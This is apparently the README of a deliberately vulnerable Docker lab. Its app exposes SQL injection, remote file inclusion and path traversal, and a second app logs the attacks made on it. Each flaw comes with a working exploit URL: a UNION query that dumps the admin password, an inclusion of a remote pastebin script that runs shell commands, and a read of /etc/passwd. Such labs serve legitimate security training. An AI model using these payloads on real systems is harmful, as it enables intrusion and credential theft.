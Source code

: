 # Alpha and Beta app #

Before you run alpha and beta app, please install docker and docker-compose.

### How to run Alpha and Beta app? ###

* Clone this repository
* Run `sudo docker-compose build`
* Run `sudo docker-compose up`
* Run `sudo docker-compose exec beta bash`
* Inside bash shell of beta app, run:

  ```
  /app# flask db upgrade
  /app# exit
  ```
  
Note: <br>
a. IP <b>172.17.0.1</b> is Docker IP. Please adjust with your own Docker IP.<br>
b. It need port 65412 for alpha, 10000 for beta and 3306 for MySQL. Please free-up those IPs.


### Endpoint Alpha ###

* Vulnerable SQL Injection

  [http://172.17.0.1:65412/?id=2](http://172.17.0.1:65412/?id=2)
  
  How to exploit : 

  [http://172.17.0.1:65412/?id=2%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20(SELECT%20id%7C%7C%27%2C%27%7C%7Cusername%7C%7C%27%2C%27%7C%7Cpassword%20FROM%20users%20WHERE%20username%3D%27admin%27)](http://172.17.0.1:65412/?id=2%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20(SELECT%20id%7C%7C%27%2C%27%7C%7Cusername%7C%7C%27%2C%27%7C%7Cpassword%20FROM%20users%20WHERE%20username%3D%27admin%27))

* Vulnerable Remote File Inclusion

  [http://172.17.0.1:65412/?include=](http://172.17.0.1:65412/?include=)

  How to exploit :

  [http://172.17.0.1:65412/?include=http%3A%2F%2Fpastebin.com%2Fraw.php%3Fi%3D6VyyNNhc&cmd=ifconfig](http://172.17.0.1:65412/?include=http%3A%2F%2Fpastebin.com%2Fraw.php%3Fi%3D6VyyNNhc&cmd=ifconfig)

* Vulnerable Path Traversal

  [http://172.17.0.1:65412/?path=](http://172.17.0.1:65412/?path=)

  How to exploit :

  [http://172.17.0.1:65412/?path=..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd](http://172.17.0.1:65412/?path=..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd)

  
### Endpoint Beta ###

  To get list of attacks activity:

  [http://172.17.0.1:10000/attacks](http://172.17.0.1:10000/attacks)
